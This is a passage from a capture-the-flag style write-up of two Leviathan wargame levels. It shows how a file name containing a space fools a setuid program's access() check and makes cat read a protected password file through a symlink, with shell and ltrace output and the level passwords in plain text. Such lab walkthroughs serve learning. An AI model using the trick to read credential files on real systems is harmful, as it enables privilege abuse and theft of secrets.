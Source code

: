 User: leviathan2  
Pass: ougahZi8Ta  

This level hinges on the use of `access()` and passing the given string to `cat`.  If we create two files, 
one that links to the password file and another with the same basename containing a space, we can trick `access()`.
This works because we ask `access()` to check the existence of our `file asdf` file which passes, then `cat` will
interpret the space as a filename delimiter and dereference our symlink rather than print the contents of 
`file asdf`.

    leviathan2@melinda:/tmp/lbo_1234_l2$ ll
    total 4336
    drwxrwxr-x    2 leviathan2 leviathan2    4096 Aug 12 22:30 ./
    drwxrwx-wt 7718 root       root       4423680 Aug 12 22:30 ../
    lrwxrwxrwx    1 leviathan2 leviathan2      30 Aug 12 22:30 file -> /etc/leviathan_pass/leviathan3
    -rw-rw-r--    1 leviathan2 leviathan2       0 Aug 12 22:30 file asdf
    leviathan2@melinda:/tmp/lbo_1234_l2$ cd
    leviathan2@melinda:~$ ltrace ./printfile /tmp/lbo_1234_l2/file\ asdf
    __libc_start_main(0x80484f4, 2, -10316, 0x80485d0, 0x8048640 <unfinished ...>
    access("/tmp/lbo_1234_l2/file asdf", 4)                                                                                             = 0
    snprintf("/bin/cat /tmp/lbo_1234_l2/file a"..., 511, "/bin/cat %s", "/tmp/lbo_1234_l2/file asdf")                                   = 35
    system("/bin/cat /tmp/lbo_1234_l2/file a".../bin/cat: /tmp/lbo_1234_l2/file: Permission denied
    /bin/cat: asdf: No such file or directory
     <unfinished ...>
    --- SIGCHLD (Child exited) ---
    <... system resumed> )                                                                                                              = 256
    +++ exited (status 0) +++
    leviathan2@melinda:~$ ./printfile /tmp/lbo_1234_l2/file\ asdf
    Ahdiemoo1j
    /bin/cat: asdf: No such file or directory
    leviathan2@melinda:~$

# Level 3

User: leviathan3  
Pass: Ahdiemoo1j  

This level once again abuses the idea of setuid.  The comparison in this case is not done using `strcmp()` so 
you can't run ltrace/strace to see what the password is being compared too.  However, if you run `strings` on 
the program: 

    leviathan3@melinda:~$ strings level3 
    /lib/ld-linux.so.2
    __gmon_start__
    libc.so.6
    _IO_stdin_used
    __printf_chk
    puts
    __stack_chk_fail
    stdin
    fgets
    system
    __libc_start_main
    GLIBC_2.3.4
    GLIBC_2.4
    GLIBC_2.0
    PTRh0